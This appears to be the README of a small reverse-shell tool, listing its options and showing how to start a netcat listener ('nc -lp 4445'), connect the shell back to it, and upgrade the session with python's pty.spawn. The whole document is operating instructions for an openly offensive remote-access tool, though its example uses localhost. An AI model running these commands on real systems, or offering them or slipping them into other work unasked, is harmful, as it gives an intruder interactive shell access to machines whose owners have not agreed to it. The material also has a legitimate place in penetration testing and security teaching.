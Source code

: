 # reverse-shell

A simple reverse shell

## Usage

```
usage: reverse-shell [options] <host> <port>
options:
	-h         : display this and exit
	-v         : display version and exit
	-f         : foreground mode (eg: no fork)
	-6         : use IPv6 socket
	-s <shell> : give the path shell (default: /bin/sh)
```

## Example

On the 'client' side, we create the listener :
```
nc -lp 4445
```
or
```
./reverse-listener 127.0.0.1 4445
```

On the 'server' side, we bind the shell to the listener :
```
./reverse-shell 127.0.0.1 4445
```

## Tip
Once you have the shell, if you want to be more confortable :
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
